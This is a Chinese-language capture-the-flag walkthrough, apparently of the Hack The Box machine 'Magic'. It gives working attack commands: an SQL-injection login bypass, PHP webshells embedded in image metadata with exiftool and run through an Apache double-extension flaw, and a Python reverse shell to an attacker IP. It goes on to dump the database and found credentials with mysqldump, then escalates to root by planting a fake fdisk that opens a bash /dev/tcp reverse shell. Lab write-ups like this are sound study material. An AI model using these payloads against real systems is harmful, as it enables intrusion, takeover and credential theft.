

## nmap


## dirsearch


## 80端口

简单sql注入绕过登录


文件只允许上传图片，尝试过后不是前端验证，并且直接传一句话木马也会被识别


将命令注入正常图片中，生成一个图片马

```shell
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' sample.png

exiftool poc.jpg -documentname="<?php echo exec(\$_REQUEST['cmd']); ?>"
```

生成的图片马可以成功上传，但是想要让php代码解析就不能以图片格式上传，中间件是apache，可能存在apache解析漏洞，

回到index.php可以看到刚才上传的图片，将文件名改为`shell.php.png`


index.php下有图片，可以查看图片的路径，替换为自己上传的文件名即可访问


可以命令执行



反弹shell

```
10.10.10.185/images/uploads/x.php.png?cmd=python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.3",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```


```
theseus:iamkingtheseus
```

/etc/passwd中也存在用户，但是使用改密码ssh无法连接

该靶机不存在mysql，但是存在mysqldump， mysqldump是对数据库进行备份的一个工具，利用该账号对数据库进行备份，就可以看到数据库中的内容

```
mysqldump -A -u theseus -p  > all_database.sql
```


```
admin:Th3s3usW4sK1ng
```

数据库中有admin账号密码，上面bd.php5中的username是`theseus`，这个密码应该就是theseus的密码,利用改密码成功切换到theseus用户


## 提权

查看有suid权限的文件，其中有一个/bin/sysinfo，运行后会打印系统信息


查看该进程调用的系统库，调用了fdisk这个文件，提权思路就是写一个反弹shell的fdisk让sysinfo来以root权限调用


```shell
theseus@magic:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.3/4444 0>&1' > fdisk

theseus@magic:/dev/shm$ chmod +x fdisk

theseus@magic:/dev/shm$ export PATH=$PATH:/dev/shm

theseus@magic:/dev/shm$ sysinfo
```

